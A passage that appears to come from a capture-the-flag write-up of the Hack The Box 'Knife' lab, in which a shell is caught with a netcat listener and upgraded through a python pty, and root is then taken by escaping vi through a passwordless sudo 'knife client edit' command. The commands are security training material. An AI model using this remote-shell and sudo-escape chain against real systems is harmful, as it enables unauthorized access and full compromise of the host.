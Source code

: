 ```bash
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 10879268  bytes 1934361744 (1.9 GB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 10879268  bytes 1934361744 (1.9 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
		
which python3
/usr/bin/python3
james@knife:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
james@knife:/$ ^Z
zsh: suspended  nc -nlvp 10099

┌──(kali㉿kali)-[~/…/HTB/box/Knife/scans]
└─$ stty raw -echo; fg																		148 ⨯ 1 ⚙
[1]  + continued  nc -nlvp 10099
james@knife:/$ export TERM=xterm
james@knife:/$ stty rows 60 columns 235
```

## Privilege Escalation

Enumerated sudo capabilities:

```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Knife allowed to choose a file to edit and the editor to use. Because the program did not drop privileges, it was possible to use the `vi` editor and then escape it by spawning a privileged shell:

```bash
james@knife:/opt$ sudo /usr/bin/knife client edit healthcare-validator -e vi
```

![Pasted image 20210523004731.png](../../zzz_res/attachments/Pasted_image_20210523004731.png)

```bash
root@knife:/opt# id && hostname && cat /root/root.txt && ifconfig
uid=0(root) gid=0(root) groups=0(root)
knife
6ae0ca51...
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.242  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:befe  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:befe  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:be:fe  txqueuelen 1000  (Ethernet)
        RX packets 2722013  bytes 412311064 (412.3 MB)
        RX errors 0  dropped 66  overruns 0  frame 0
        TX packets 2509092  bytes 1106488505 (1.1 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
```